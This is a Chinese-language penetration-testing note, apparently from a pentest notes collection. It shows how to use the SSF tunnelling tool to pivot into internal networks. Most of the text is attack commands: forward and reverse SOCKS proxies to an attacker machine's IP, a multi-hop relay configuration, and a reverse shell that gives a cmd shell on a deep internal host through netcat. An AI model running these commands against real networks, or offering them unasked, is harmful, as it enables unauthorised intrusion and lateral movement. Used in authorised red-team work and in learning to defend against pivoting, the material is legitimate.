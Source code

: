 	https://github.com/securesocketfunneling/ssf/releases
#### 正向socks代理
	边界机器执行：
	>ssfd.exe -p 1080 linux执行：./ssfd -p 1080
![image](/assets/Pentest_Note/master/img/350.png)

	攻击机执行：
	>ssf.exe -D 12138 -p 1080 192.168.0.98(边界机器IP)
![image](/assets/Pentest_Note/master/img/351.png)

	本机配置proxychain或proxifier
![image](/assets/Pentest_Note/master/img/352.png)
#### 反向socks代理
	攻击机执行：
	>ssfd.exe -p 1080
![image](/assets/Pentest_Note/master/img/353.png)

	内网机器执行：
	>ssf.exe -F 12138 -p 1080 192.168.0.106(攻击机IP)
![image](/assets/Pentest_Note/master/img/354.png)
![image](/assets/Pentest_Note/master/img/355.png)
#### 多级级联
	多级内网机执行：
	>ssfd.exe -p 1080 -c config.json
	Json文件加入字段
	"circuit": [ 
	{"host": "A中继机IP", "port":"1080"}, 
	{"host": "B中继机IP", "port":"1080"} 
	],
	所有中继机执行：
	>ssfd.exe -p 1080 -c config.json
	边界机器执行：
	>ssf.exe -c config.json -p 1080 多级内网机IP -X 12138
	边界机执行：
	>nc.exe 127.0.0.1 12138即可获得多级内网机cmdshell
#### 反弹shell
	攻击机执行：
	>ssfd.exe -p 1080 -c config.json
![image](/assets/Pentest_Note/master/img/356.png)

	内网机器执行：
![image](/assets/Pentest_Note/master/img/357.png)

	攻击机执行：
	>nc 127.0.0.1 12138
![image](/assets/Pentest_Note/master/img/358.png)
